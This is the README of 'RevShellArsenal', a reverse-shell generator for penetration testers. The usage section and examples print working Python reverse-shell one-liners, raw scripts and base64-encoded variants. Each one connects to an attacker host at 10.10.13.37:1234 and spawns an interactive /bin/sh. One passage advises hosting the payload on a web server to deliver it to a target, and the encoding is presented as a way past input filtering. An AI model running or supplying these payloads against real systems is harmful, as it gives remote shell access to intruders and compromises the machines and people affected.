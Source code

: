 # RevShellArsenal

___RevShellArsenal___ is a small tool I wrote to generate reverse shells in differents languages, based on widely known techniques (e.g.: pentestmonkey cheat sheet). 

<p align="center">
  <img src="https://raw.githubusercontent.com/itm4n/RevShellArsenal/master/screenshots/01_demo-all.png">
</p>

## Usage
```
usage: rsg.py [-h] [--raw] [--encode]
              {all,shell,perl,python,php,groovy,cmd,powershell} lhost lport

RevShellArsenal - Reverse Shell Generator

positional arguments:
  {all,shell,perl,python,php,groovy,cmd,powershell}
                        Payload (choose 'all' to generate all payloads)
  lhost                 Local IP address
  lport                 Local port

optional arguments:
  -h, --help            show this help message and exit
  --raw                 Print raw payload instead of one-liner
  --encode              Encode raw payload and print command
```

## Examples

Generate a __Pyhon__ Reverse Shell __one-liner__.
```sh
user@host:~$ ./rsg.py python 10.10.13.37 1234
[SHELL][PYTHON][ONE-LINER]
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.13.37",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Generate a __Python__ Reverse Shell and print it as __raw code__. This is useful if you want to output the result to a script a file and then __host it on a web server__ to deliver it to the target.
```python
user@host:~$ ./rsg.py python 10.10.13.37 1234 --raw
[PYTHON][RAW]
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.13.37",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

Generate a __Python__ Reverse Shell and print it as an __encoded command__. This is useful to __avoid special characters__.
```sh
user@host:~$ ./rsg.py python 10.10.13.37 1234 --encode
[SHELL][PYTHON][ENCODED]
bash -c "{echo,cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTMuMzciLDEyMzQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOyc=}|{base64,-d}|{bash,-i}"

[PYTHON][ENCODED]
python -c "exec('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zOwpzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsc29ja2V0LlNPQ0tfU1RSRUFNKTsKcy5jb25uZWN0KCgiMTAuMTAuMTMuMzciLDEyMzQpKTsKb3MuZHVwMihzLmZpbGVubygpLDApOwpvcy5kdXAyKHMuZmlsZW5vKCksMSk7Cm9zLmR1cDIocy5maWxlbm8oKSwyKTsKcD1zdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwiLWkiXSk7'.decode('base64'))"
```

## Credits

[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) - The famous reverse shell cheat sheet from pentestmonkey.

[Nishang PowerShell Reverse Shells](https://github.com/samratashok/nishang/tree/master/Shells) - Great PowerShell scripts for Windows-based reverse shells.

[java.lang.Runtime.exec() Payload Workarounds](https://jthuraisamy.github.io/archives.html/runtime-exec-payloads.html) - A tool to _encode_ Bash, PowerShell, Perl and Python commands/scripts. Useful when special characters usage is limited. The link is broken but is still available in [Google cache](https://webcache.googleusercontent.com/search?q=cache:5AdcRIUec4sJ:https://jackson.thuraisamy.me/runtime-exec-payloads.html).
